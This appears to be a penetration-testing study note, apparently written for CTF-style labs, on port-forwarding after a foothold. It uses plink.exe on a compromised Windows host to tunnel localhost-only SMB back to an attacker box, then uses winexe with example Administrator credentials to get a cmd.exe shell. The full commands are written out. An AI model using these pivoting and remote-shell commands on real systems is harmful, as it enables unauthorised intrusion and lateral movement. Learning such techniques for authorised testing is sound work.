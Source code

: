 -- -
Writing this for situations where you want to attack services on ports that are only available to local host. So:
1. You get a foothold on a server
2. You [[Dark Arts/Privesc/Windows/Enumeration/Network#^cc03c5|Network Enum]] and find ports open only to localhost
So from here you will need to forward your traffic through the server to get access to those ports. 
##### Setup SSH on target servera
You can skip this step if SSH is setup on the server. This is for most situations where the windows server does not have SSH up. 
1. [Download Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
2. [[Dark Arts/File Transfer/Windows|File Transfer]] plink.exe to target server. 
3. Config SSH on attackbox:
```bash
sudo vim /etc/ssh/sshd_config

# look for line:
# PermitRootLogin prohibit-password

# uncomment and change to:
PermiRootLogin yes

# then save

# Check ssh status
sudo systemctl status ssh
sudo service ssh status

# start if not enabled
sudo systemctl start ssh
sudo service ssh start

# if it is enabled/started previously, restart it
sudo systemctl restart ssh
sudo service ssh restart
```
4. Setup port forward on target:
```powershell
# I still don't have my mind completely wrapped around this, but I believe it port forwards to internally avaialble port and connects back to attack box via ssh. 

# for the credentials, use the credentials of your account on the attackbox
# -R: Port to forward to, i.e. the port open only to localhost you want to access
# in this example, we are forwarding traffic from 445 externally to 445 open internally. 
plink.exe -l <username> -pw <password> -R <port>:127.0.0.1:<port> <attack ip>
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5
plink.exe -l n0ctxs -pw kali -R 445:127.0.0.1:445 10.10.14.5
```
5. Use `winexe` to run linux commands via windows.
```bash
# Try to get shell with creds
# on shell gotten through plink.exe:
winexe -U <username>%<password> //127.0.0.1 "cmd.exe"
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"

# note: you may need to try it multiple times before it works. 
```